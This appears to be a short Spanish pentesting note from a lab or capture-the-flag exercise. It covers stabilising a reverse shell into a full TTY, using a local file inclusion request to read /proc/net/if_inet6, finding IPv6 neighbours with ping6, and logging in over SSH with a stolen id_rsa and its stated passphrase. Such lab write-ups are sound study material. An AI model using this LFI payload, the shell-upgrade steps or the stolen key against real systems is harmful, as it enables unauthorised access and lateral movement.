 Para crearnos una pseuso-consola donde podamos hacer control c y no tengamos problemas con el teclado ejecutamos lo siguiente:

```bash
script /dev/null -c bash
control z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
```
![[Pasted image 20230502104304.png]]
![[Pasted image 20230502104222.png]]
## ENCONTRAR DIRECCIÓN IPV6 EN MÁQUINA LINUX
Hay una ruta donde podemos encontrar la dirección IPv6 de una máquina linux, y es la siguiente:
```bash
cat /proc/net/if_inet6
```
![[Pasted image 20240105111122.png]]
Esto puede ser muy útil cuando queramos obtener dicha dirección tras explotar un LFI:
```bash
curl -sX GET 'http://192.168.0.32/php-scripts/file.php?6=/proc/net/if_inet6'
```
![[Pasted image 20240105111152.png]]
No obstante, por aquí todavía no encontramos la IPv6; y para ello podemos utilizar ping6 de la siguiente forma:
```bash
ping6 -c2 -n -I eth0 ff02::1
```
Utilizamos los siguientes parámetros para ello:
- **`ping6`**: Este comando se utiliza para enviar paquetes de solicitud de eco ICMPv6 a una dirección específica.
    
- **`-c2`**: Indica que se enviarán 2 paquetes antes de detenerse.
    
- **`-I eth0`**: Especifica la interfaz de red desde la cual se enviarán los paquetes de ping. En este caso, se ha especificado la interfaz `eth0`.
    
- **`ff02::1`**: Esta es una dirección de multidifusión de enlace local. El rango `ff02::/16` está reservado para direcciones de multidifusión de enlace local, y el `::1` indica el grupo de todos los nodos en el enlace local.
Y nos devuelve esto, donde conseguimos muchas IPv6:
![[Pasted image 20240105112339.png]]
Vamos probando en conectarnos por ssh con cada una de estas IPs hasta acertar:
```bash
ssh -6 -i id_rsa cromiphi@fe80::a00:27ff:fe4c:9dd4%eth0
```
Utilizando el archivo id_rsa con la contraseña ilovemyself del fichero id_rsa:
![[Pasted image 20240105112413.png]]
